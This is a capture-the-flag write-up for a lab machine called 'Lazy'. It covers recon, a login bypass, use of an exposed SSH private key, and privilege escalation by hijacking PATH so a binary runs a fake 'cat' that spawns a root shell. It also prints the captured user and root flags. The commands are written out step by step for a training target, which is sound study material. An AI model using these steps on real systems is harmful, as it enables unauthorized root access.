 # [cd ../](../index.md)

---

# Lazy writeup by M4t35Z

Name | Lazy
--- | ---
IP | 10.10.10.18
OS | Linux
Points | Medium(30)

---

# Recon
[nmap(fast)](recon/fast.txt)  
[nmap(big)](recon/big.txt)  

We have 2 ports open:  
`22 - ssh` and `80 - http`

## Web
Run ffuf  
`/classes` seems interesting! But it's nothing

The page is just a login, register page
- Maybe sqli?
Try some!
```
admin '-- -
admin       <spaces>
admin=
```

And `admin=` worked!  
![](img/adminpage.png)  

And we have a [link](http://10.10.10.18/mysshkeywithnamemitsos) to the developer's `id_rsa`  
Just copy it -> save it -> use it!  

But wait wait wait we need a username too.  
Lets check the link again:  
*my ssh key with name `mitsos`*  
So we have a username `mitsos` and his id_rsa now we can log in!

# SSH

```
ssh -i id_rsa mitsos@10.10.10.18
```

And we got the flag from `user.txt`
```
d558e7924bdfe31266ec96b007dc63fc
```

## Privesc to `root`
We have a `peda` directory and a weird `backup` file  
Just run `./backup` -> it cats `/etc/shadow`  
Since we have peda on it we could run `gdb ./backup`  
Yaaaay a lil reversing challenge!  

`b main` means breaking the main fcn.  
`r` runs the program until breakpoint reached  
![](img/gdb.png)  
`si` step  
`x/s 0x80484d0` This returns `"cat /etc/shadow"`  
![](img/gdb2.png)  

So we have a cmd that is executing `cat`!
- No absolute path!!  
We could make a new file named `cat` and place it somewhere before the actual `cat` in `$PATH` and this program will execute the first one!  
![](img/path.png)

### Exploiting
Just make a file named `cat` and put inside what u want to be executed as root!
The most easy `/bin/sh`

But there is a problem!  
We cant write to default system paths  
BUT we can add paths!!!!
```
export PATH=`pwd`:$PATH
```
Now just run `./backup` and u can see this is a rootshell!!  

Cmds2run:
1. `cd ~`
2. `echo "/bin/sh" > cat`
3. `chmod +x cat`
4. ```
   export PATH=`pwd`:$PATH
   ```
5. `./backup`

# Got root and the root flag!
![](img/gotroot.png)  
```
990b142c3cefd46a5e7d61f678d45515
```
